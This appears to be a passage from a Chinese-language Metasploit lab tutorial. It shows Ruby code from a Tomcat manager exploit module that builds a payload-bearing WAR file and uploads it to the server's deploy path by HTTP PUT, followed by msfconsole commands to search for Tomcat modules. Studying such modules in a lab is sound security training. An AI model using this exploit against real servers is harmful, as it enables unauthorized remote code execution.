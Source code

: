 ```
    p = exploit_regenerate_payload(mytarget.platform, mytarget.arch)

    # Generate the WAR containing the EXE containing the payload
    jsp_name = rand_text_alphanumeric(4+rand(32-4))
    app_base = rand_text_alphanumeric(4+rand(32-4))

    # 生成的 war 包含 payload
    war = p.encoded_war({
        :app_name => app_base,
        :jsp_name => jsp_name,
        :arch => mytarget.arch,
        :platform => mytarget.platform
      }).to_s

    query_str = "?path=/" + app_base

    #
    # UPLOAD
    #
    path_tmp = normalize_uri(datastore['PATH'], "deploy") + query_str
    print_status("Uploading #{war.length} bytes as #{app_base}.war ...")
    res = send_request_cgi({
      'uri'          => path_tmp,
      'method'       => 'PUT',
      'ctype'        => 'application/octet-stream',
      'data'         => war,
    }, 20)
    
    # 判断 res 是否为空，为空则报错
    if (! res)
      fail_with(Failure::Unknown, "Upload failed on #{path_tmp} [No Response]")
    end
    
    # 根据 res.code 状态进行选择
    if (res.code < 200 or res.code >= 300)
      case res.code
      when 401
        print_warning("Warning: The web site asked for authentication: #{res.headers['WWW-Authenticate'] || res.headers['Authentication']}")
      end
      
      # 如果错误，则报出 upload 错误
      fail_with(Failure::Unknown, "Upload failed on #{path_tmp} [#{res.code} #{res.message}]")
    end
```

继续在 msfconsole 中执行下列的命令：

```
# 回到主菜单
back

# 使用相应模块
search tomcat

```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480472752260.png-wm)
